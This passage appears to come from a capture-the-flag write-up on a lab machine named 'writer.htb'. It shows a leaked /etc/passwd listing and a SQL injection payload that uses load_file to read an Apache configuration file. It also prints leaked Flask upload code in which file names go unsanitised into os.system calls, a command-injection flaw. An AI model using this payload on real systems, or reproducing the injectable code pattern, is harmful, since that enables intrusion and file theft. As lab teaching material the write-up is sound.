 \nsshd:x:112:65534::/run/sshd:/usr/sbin/nologin  \nsystemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin  \nkyle:x:1000:1000:Kyle Travis:/home/kyle:/bin/bash  \nlxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false  \npostfix:x:113:118::/var/spool/postfix:/usr/sbin/nologin  \nfilter:x:997:997:Postfix Filters:/var/spool/filter:/bin/sh  \njohn:x:1001:1001:,,,:/home/john:/bin/bash  \nmysql:x:114:120:MySQL Server,,,:/nonexistent:/bin/false\n{% endhighlight %}\n\nGetting RCE\n-----------\n\n### Source Code Analysis\n\nBefore being able to read the source code of the website, the full path of the file containing the source code must first be discovered. Seeing as the server is running apache2, the 000-default.conf file in the /etc/apache2/sites-available directory, a directory which holds configuration files for Apache virtual hosts, can be leaked to determine this information.  \n\nPayload\n\n{% highlight bash %}\nuname=\'union select 1,load_file(\'/etc/apache2/sites-available/000-default.conf\'),3,4,5,6-- -&password=a\n{% endhighlight %}\n\n  \nResponse\n\n{% highlight bash %}\nWelcome # Virtual host configuration for writer.htb domain  \n&lt;VirtualHost *:80&gt;  \n       ServerName writer.htb  \n       ServerAdmin admin@writer.htb  \n       WSGIScriptAlias / /var/www/writer.htb/writer.wsgi       &lt;Directory /var/www/writer.htb&gt;  \n               Order allow,deny  \n               Allow from all  \n       &lt;/Directory&gt;  \n       Alias /static /var/www/writer.htb/writer/static       &lt;Directory /var/www/writer.htb/writer/static/&gt;  \n               Order allow,deny  \n               Allow from all  \n       &lt;/Directory&gt;  \n       ErrorLog ${APACHE_LOG_DIR}/error.log  \n       LogLevel warn  \n       CustomLog ${APACHE_LOG_DIR}/access.log combined  \n&lt;/VirtualHost&gt;  \n  \n# Virtual host configuration for dev.writer.htb subdomain  \n# Will enable configuration after completing backend development  \n# Listen 8080  \n#&lt;VirtualHost 127.0.0.1:8080&gt;  \n#        ServerName dev.writer.htb  \n#        ServerAdmin admin@writer.htb  \n#       # Collect static for the writer2_project/writer_web/templates#        Alias /static /var/www/writer2_project/static  \n#        &lt;Directory /var/www/writer2_project/static&gt;  \n#                Require all granted  \n#        &lt;/Directory&gt;  \n#  \n#        &lt;Directory /var/www/writer2_project/writerv2&gt;  \n#                &lt;Files wsgi.py&gt;  \n#                        Require all granted  \n#                &lt;/Files&gt;  \n#        &lt;/Directory&gt;  \n#  \n#        WSGIDaemonProcess writer2_project python-path=/var/www/writer2_project python-home=/var/www/writer2_project/writer2env  \n#        WSGIProcessGroup writer2_project  \n#        WSGIScriptAlias / /var/www/writer2_project/writerv2/wsgi.py  \n#        ErrorLog ${APACHE_LOG_DIR}/error.log  \n#        LogLevel warn  \n#        CustomLog ${APACHE_LOG_DIR}/access.log combined  \n#  \n#&lt;/VirtualHost&gt;  \n# vim: syntax=apache ts=4 sw=4 sts=4 sr noet\n{% endhighlight %}\n\nIn particular, note the directory in which the writer.wsgi file lies in (highlighted in blue). After finding out that the server is running python, fuzzing for files in the root of the web server revealed an __init__.py file within /var/www/writer.htb/writer/. Leaking this file reveals the following contents:\n\n{% highlight python %}\nif request.method == \"POST\":        if request.files[\'image\']:             image = request.files[\'image\']            if \".jpg\" in image.filename:  \n                path = os.path.join(\'/var/www/writer.htb/writer/static/img/\', image.filename)               image.save(path)$               image = \"/img/{}\".format(image.filename)           else:$               error = \"File extensions must be in .jpg!\"               return render_template(\'add.html\', error=error)       if request.form.get(\'image_url\'):  \n           image_url = request.form.get(\'image_url\')           if \".jpg\" in image_url:               try:                   local_filename, headers = urllib.request.urlretrieve(image_url)  \n                   os.system(\"mv {} {}.jpg\".format(local_filename, local_filename))                   image = \"{}.jpg\".format(local_filename)                   try:                       im = Image.open(image)                       im.verify()                       im.close()  \n                       image = image.replace(\'/tmp/\',\'\')                      os.system(\"mv /tmp/{} /var/www/writer.htb/writer/static/img/{}\".format(image, image))                       image = \"/img/{}\".format(image)  \n                   except PIL.UnidentifiedImageError:                       os.system(\"rm {}\".format(image))                       error = \"Not a valid image file!\"...  \n\n        if request.form.get(\'image_url\'):  \n           image_url = request.form.get(\'image_url\')           if \".jpg\" in image_url:               try:  \n                   local_filename, headers = urllib.request.urlretrieve(image_url)                   os.system(\"mv {} {}.jpg\".format(local_filename, local_filename))                   image = \"{}.jpg\".format(local_filename)                   try:                       im = Image.open(image)                       im.verify()                       im.close()  \n                       image = image.replace(\'/tmp/\',\'\')                       os.system(\"mv /tmp/{} /var/www/writer.htb/writer/static/img/{}\".format(image, image))                       image = \"/img/{}\".format(image)                       cursor = connector.cursor()                       cursor.execute(\"UPDATE stories SET image = %(image)s WHERE id = %(id)s\", {\'image\':image, \'id\':id})  \n                       result = connector.commit()  \n  \n                   except PIL.UnidentifiedImageError:                       os.system(\"rm {}\".format(image))